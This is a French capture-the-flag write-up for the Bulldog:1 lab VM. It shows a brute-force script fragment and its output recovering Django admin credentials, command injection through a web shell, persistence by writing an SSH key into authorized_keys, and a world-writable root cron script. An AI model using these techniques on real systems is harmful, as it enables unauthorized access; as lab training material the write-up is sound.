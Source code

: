 ```python
            if "Please enter the correct username and password for a staff account." not in response.text:
                print("Found creds {} / {}".format(user, password))
                sess = requests.session()
```

On lui donne notre liste de logins potentiels basés sur les noms trouvés dans /dev/ ainsi qu'une liste de passwords potentiels (mots de passes classiques + les logins + le nom de la société).  

On trouve rapidement un compte faillible.  

```plain
Trying user alan
Trying user alan brooke
Trying user alan.brooke
Trying user ashley
Trying user brooke
Trying user churchy
Trying user kevin
Trying user malik
Trying user nick
Found creds nick / bulldog
Trying user sarah
Trying user william
Trying user winston
Trying user winston churchy
Trying user winston.churchy
```

Une fois les credentials utilisés sur /admin/ (qui ne fournit rien d'intéressant) on retourne sur /dev/ et le web-shell.  

Force est de constater que celui-ci réutilise la session de l'interface d'administration.  

![Command injection on Bulldog:1 CTF web-shell](https://raw.githubusercontent.com/devl00p/blog/master/images/bulldog1/shell_injection.png)

On a affaire à une classique faille d'injection de commande. J'ai utilisé les backticks mais on peut parier que d'autres techniques fonctionnent.  

On a les privilèges de l'utilisateur django et un SSH est accessible... Il faut pas chercher longtemps avant de rajouter notre clé publique SSH dans le fichier */home/django/.ssh/authorized\_keys* via la commande echo.  

G0t r00t?
---------

Une fois le shell récupéré on part à la recherche du fameux antivirus qui tourne toutes les minutes.  

```shellsession
django@bulldog:~/bulldog$ ls /etc/cron.d
mdadm  popularity-contest  runAV
django@bulldog:~/bulldog$ cat /etc/cron.d/runAV
*/1 * * * * root /.hiddenAVDirectory/AVApplication.py
django@bulldog:~/bulldog$ cat /.hiddenAVDirectory/AVApplication.py
#!/usr/bin/env python

# Just wanted to throw this placeholder here really quick.
# We will put the full AV here when the vendor is done making it.
# - Alan
django@bulldog:~/bulldog$ ls -al /.hiddenAVDirectory/AVApplication.py
-rwxrwxrwx 1 root root 157 Aug 25 22:12 /.hiddenAVDirectory/AVApplication.py
```
